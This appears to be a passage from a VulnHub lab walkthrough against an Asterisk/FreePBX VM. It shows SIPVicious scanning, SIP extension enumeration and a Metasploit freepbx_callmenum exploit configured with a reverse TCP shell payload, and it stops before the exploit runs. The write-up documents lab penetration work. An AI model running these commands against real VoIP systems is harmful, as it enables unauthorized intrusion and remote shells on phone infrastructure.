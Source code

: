 > SIPVicious suite is a set of tools that can be used to audit SIP based VoIP systems. It currently consists of the folowing tools:

> svmap - this is a sip scanner. Lists SIP devices found on an IP range

> svwar - identifies active extensions on a PBX

> svcrack - an online password cracker for SIP PBX

> svreport - manages sessions and exports reports to various formats

> svcrash - attempts to stop unauthorized svwar and svcrack scans 

Let's get started then!

``` plain
./svmap.py 192.168.80.1/24
| SIP Device          | User Agent            | Fingerprint |
-------------------------------------------------------------
| 192.168.80.131:5060 | Asterisk PBX 1.6.2.11 | disabled    |
```

Now we also have the Asterisk version. Next, we need to find valid extensions (it took a while of trial and error to get meaningful information on this one):

``` plain
./svwar.py -D -m INVITE 192.168.80.131
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
WARNING:TakeASip:extension '100' probably exists but the response is unexpected
WARNING:TakeASip:extension '100' probably exists but the response is unexpected
| Extension | Authentication |
------------------------------
| 201       | reqauth        |
| 200       | reqauth        |
| 2000      | reqauth        |
| 102       | reqauth        |
| 100       | weird          |
| 101       | reqauth        |
```

The -D option enables scanning for default extensions, and the -m option specifies a request method (INVITE indicates that a client is being invited to participate in a call session.)

If you read the VM description on VulnHub, you probably remember that it mentions an easy way to get root to the machine. I found an exploit for that in Metasploit, more info here: http://www.offensive-security.com/vulndev/freepbx-exploit-phone-home/

``` plain
use exploit/unix/http/freepbx_callmenum

msf exploit(freepbx_callmenum) > show options

Module options (exploit/unix/http/freepbx_callmenum):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   EXTENSION  2000-2001        yes       A range of Local extension numbers
   Proxies                     no        Use a proxy chain
   RHOST      192.168.80.131   yes       The target address
   RPORT      80               yes       The target port
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.80.130   yes       The listen address
   LPORT  4444             yes       The listen port
```
